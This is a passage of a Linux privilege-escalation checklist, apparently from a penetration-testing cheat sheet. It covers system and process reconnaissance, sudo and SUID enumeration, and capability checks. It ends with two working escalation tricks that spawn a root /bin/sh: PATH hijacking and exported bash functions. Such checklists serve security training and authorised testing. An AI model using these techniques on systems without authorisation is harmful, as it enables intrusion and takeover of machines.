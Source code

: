 2. What Kernel version and distro are we working with here?
  - `uname -a`
  - `cat /etc/issue`

3. What new processes are running on the server (Thanks to IPPSEC for the script!):

```shell
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)

while true; do
  new_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
  diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
  sleep 1
  old_process=$new_process
done
```

4. We can also use pspy on linux to monitor the processes that are starting up and running: <https://github.com/DominicBreuker/pspy>

5. Check the services that are listening: `bash ss -lnpt`

#### What can we EXECUTE?

6. Who can execute code as root (probably will get a permission denied)?
  - `cat /etc/sudoers`
7. Can I execute code as root (you will need the user's password)?
  - `sudo -l`

8. What executables have SUID bit that can be executed as another user?

  ```shell
  find / -type f -user root -perm /u+s -ls 2>/dev/null
  find / -user root -perm -4000 -print 2>/dev/null
  find / -perm -u=s -type f 2>/dev/null
  find / -user root -perm -4000 -exec ls -ldb {};
  ```

9. Do you have any capabilities available? `getcap -r / 2>/dev/null`

10. Do any of the SUID binaries run commands that are vulnerable to file path manipulation?

  ```shell
  strings /usr/local/bin/binaryelf
  mail
  echo "/bin/sh" > /tmp/mail cd /tmp
  export PATH=.
  /usr/local/bin/binaryelf
  ```

11. Do any of the SUID binaries run commands that are vulnerable to Bash Function Manipulation?

 ```shell
  strings /usr/bin/binaryelf
  mail function /usr/bin/mail() { /bin/sh; }
  export -f /usr/bin/mail
  /usr/bin/binaryelf
  ```
